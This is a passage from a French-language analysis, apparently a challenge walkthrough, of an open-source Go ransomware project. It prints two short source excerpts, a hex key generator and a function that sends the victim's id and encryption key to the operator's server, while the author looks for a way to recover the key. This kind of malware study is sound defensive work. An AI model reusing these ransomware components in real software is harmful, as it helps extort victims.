 Nous constatons 2 choses : 
- La génération d'un `id` à l'aide de la fonction `GenerateRandomANString()` située dans le fichier `utils` et ayant pour paramètre `32`.
- La génération de `enckey` à l'aide de la fonction `GenerateRandomANString()` située dans le fichier `utils` et ayant pour paramètre `32`.

Ensuite, ce couple `id` et `enckey` est envoyé sur un serveur à l'aide de la fonction `AddNewKeyPair()` située dans le fichier `client`.

Nous pouvons supposer que l'`id` et la clé de chiffrement `enckey` (*qui est sûrement le diminutif de `encrypted key`*) sont tout deux une chaîne de 32 caractères générés aléatoirement. Pour en être sûr, nous pouvons étudier la fonction correspondante.

### Un zoom sur `utils.go`

Ici, ce qui nous intéresse c'est la fonction `GenerateRandomANString()`, [à la ligne 13 de utils/utils.go](https://github.com/mauri870/ransomware/blob/master/utils/utils.go#L13). 

```go
// Generate a random alphanumeric string with the given size
func GenerateRandomANString(size int) (string, error) {
	key := make([]byte, size)
	_, err := rand.Read(key)
	if err != nil {
		return "", err
	}

	return hex.EncodeToString(key)[:size], nil
}
```

La fonction est plutôt simple. Elle prend un entier en paramètre et génère une chaîne de caractère aléatoire de la même taille. Celle-ci est ensuite encodée en hexadécimal à l'aide de la fonction `hex.EncodeToString()` avant d'être retournée. 

Notre hypothèse est donc confirmée. Nous sommes bien à la recherche d'une chaîne de 32 caractères et nous savons qu'ils sont hexadécimaux. Mais nous n'avons encore aucune piste sur le moyen de récupérer cette fameuse clé...


### Un zoom sur `client.go`

Regardons de plus près la fonction `AddNewKeyPair()` [dans client/client.go, ligne 90](https://github.com/mauri870/ransomware/blob/master/client/client.go#L90).

```go
// AddNewKeyPair persist a new keypair on server
func (c *Client) AddNewKeyPair(id, encKey string) (*http.Response, error) {
	payload := fmt.Sprintf(`{"id": "%s", "enckey": "%s"}`, id, encKey)
	return c.SendEncryptedPayload("/api/keys/add", payload, map[string]string{})
}
```

Cette fonction prends bien en paramètre un `id` et une clé de chiffrement `enckey`. Elle va ensuite mettre en forme la charge utile (*payload* en anglais) sous la forme : 
